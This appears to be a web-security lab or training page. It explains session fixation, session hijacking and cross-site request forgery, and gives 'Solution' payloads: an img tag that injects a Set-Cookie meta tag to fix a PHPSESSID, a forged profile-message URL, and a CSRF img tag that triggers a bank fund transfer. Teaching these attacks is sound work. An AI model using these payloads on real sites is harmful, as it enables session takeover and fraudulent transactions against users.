# Sessions

__Background__

Sessions are used to maintain a semi-permanent state between two or more parties. Commonly, sessions are used to maintain a user's state in a web application. For example, a session can be associated with a user of an online store to track their searches, cart's contents, etc. Session data is stored server side while the user's session id is stored by their browser. Manipulating a user's session id or using their session id can result in private data being leaked, malicious actions are executed without a user's consent, and much more.

<b>Session Fixation:</b> Forcing another user to use your provided session id. This results in the user having a predetermined session id known to the malicious user. 

<b>Session Hijacking:</b> Getting another user's session and using it without their consent. 

<b>Cross-Site Request Forgery:</b> A CSRF attack forces a victim’s browser, with an established session, to send a forged HTTP request, including the victim’s session cookie and any other automatically included authentication information, to a vulnerable web application. This allows the attacker to force the victim’s browser to generate requests the vulnerable application thinks are legitimate requests from the victim.

__Overview__

<h3>Session Fixation</h3>
<ol>
	<li>
		<p>
			<b>Force a user to log in with a specified session id:</b>
			Force a user to have session id = ttedjigap685hju2ogmimt22i5
		</p>
		<p>
			<b>Solution:</b> 
			<code>
				<img src='http://website.com/profile.php?profileMessage=<meta http-equiv=Set-Cookie content="PHPSESSID=ttedjigap685hju2ogmimt22i5">&action=submitProfileMessage'/>
			</code>
		</p>
	</li>
</ol>
<h3>Session Hijacking</h3>
<ol>
	<li>
		<p>
			<b>Login to application using another user's session id:</b>
			Login into the application with session id = ttedjigap685hju2ogmimt22i5		
		</p>
		<p>
			<b>Solution:</b> Check if user's PHPSESSID is set to ttedjigap685hju2ogmimt22i5
		</p>
	</li>
	<li>
		<p>
			<b>Use session hijacking to submit data as another user:</b>
		</p>
		<p>
			<b>Solution:</b> http://website.com/profile.php?profileMessage=HACKERS_DATA&action=submitProfileMessage
		</p>
	</li>
</ol>
<h3>Cross-Site Request Forgery</h3>
<ol>
	<li>
		<p>
			<b>Use Cross-Site Request Forgery to force a user to submit a malicious request:</b>
			Use Cross-Site Request Forgery to transfer money from your victim's account to your account.
		</p>
		<p>
			<b>Solution:</b> 
			<code>
				<img src='http://bank.com/transferFunds.php?from=HACKERSACCOUNT&to=YOURACCOUNT&action=transfer'/>
			</code>
		</p>
	</li>
</ol>